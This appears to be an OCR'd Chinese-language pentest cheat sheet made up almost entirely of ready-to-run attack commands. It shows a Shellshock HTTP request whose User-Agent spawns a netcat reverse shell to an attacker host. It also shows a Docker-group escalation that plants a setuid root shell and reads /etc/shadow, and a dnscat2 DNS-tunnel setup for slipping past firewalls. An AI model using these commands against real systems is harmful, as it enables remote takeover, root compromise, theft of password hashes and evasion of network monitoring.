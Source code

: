 # 反弹 Shell
$ nc -l -p 443
$ echo "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.56.103 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.56.118 80
获取 Docker 的 Root

# 获取  Docker 的 Root
# user 必须在 docker 用户组中
ek@victum:~/docker-test$ id
uid=1001(ek) gid=1001(ek) groups=1001(ek),114(docker)

ek@victum:~$ mkdir docker-test
ek@victum:~$ cd docker-test

ek@victum:~$ cat > Dockerfile
FROM debian:wheezy

ENV WORKDIR /stuff

RUN mkdir -p $WORKDIR

VOLUME [ $WORKDIR ]

WORKDIR $WORKDIR
<< EOF

ek@victum:~$ docker build -t my-docker-image .
ek@victum:~$ docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c \
'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh'
./sh
whoami
# root

ek@victum:~$ docker run -v /etc:/stuff -t my-docker-image /bin/sh -c 'cat /stuff/shadow'
使用 DNS 隧道绕过防火墙

# 让数据和命令使用 DNS 隧道传输以绕过防火墙的检查
# dnscat2 支持从目标主机上面上传和下载命令来获取文件、数据和程序

# 服务器 (攻击者)
$ apt-get update
$ apt-get -y install ruby-dev git make g++
$ gem install bundler
$ git clone https://github.com/iagox86/dnscat2.git
$ cd dnscat2/server
$ bundle install
$ ruby ./dnscat2.rb
dnscat2> New session established: 16059
dnscat2> session -i 16059
